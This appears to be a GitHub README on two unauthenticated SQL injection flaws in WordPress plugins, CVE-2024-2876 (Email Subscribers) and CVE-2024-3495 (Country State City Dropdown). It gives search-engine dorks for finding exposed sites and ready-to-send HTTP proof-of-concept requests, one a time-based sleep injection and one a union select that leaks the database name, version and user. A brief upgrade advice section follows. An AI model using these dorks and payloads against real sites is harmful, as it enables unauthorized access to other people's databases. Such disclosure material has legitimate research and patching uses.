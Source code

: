 ### Description CVE-2024-2876
The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection 
via the 'run' function of the 'IG_ES_Subscribers_Query' class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient 
preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Description CVE-2024-3495
The Country State City Dropdown CF7 plugin for WordPress is vulnerable to SQL Injection via the ‘cnt’ and 'sid' parameters in versions up to, and including, 2.7.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Query CVE-2024-2876
- FOFA : body="/wp-content/plugins/email-subscribers/"
- publicwww : "/wp-content/plugins/email-subscribers/"
### Query CVE-2024-3495
- FOFA : body="/wp-content/plugins/country-state-city-auto-dropdown" && header="HTTP/1.1 200 OK"
- Publicwww : "/wp-content/plugins/country-state-city-auto-dropdown"
- shodan : "http.title:admin-ajax.php"

### Proof of concept CVE-2024-2876
```bash
@timeout: 20s (using burpsuite)
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```
### Proof of concept CVE 2024-CVE-2024-3495
```bash
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 172

action=tc_csca_get_states&nonce_ajax={{nonce}}&cnt=1+or+0+union+select+concat(0x64617461626173653a,database(),0x7c76657273696f6e3a,version(),0x7c757365723a,user()),2,3--+-
```

### How to fix ? for [CVE-2024-2876]
- Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19).
- Patchstack users have the option to enable automatic updates specifically for vulnerable plugins.
- Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.

### Bounty Info [CVE-2024-2876]
https://www.wordfence.com/blog/2024/04/1250-bounty-awarded-for-unauthenticated-sql-injection-vulnerability-patched-in-email-subscribers-by-icegram-express-wordpress-plugin/

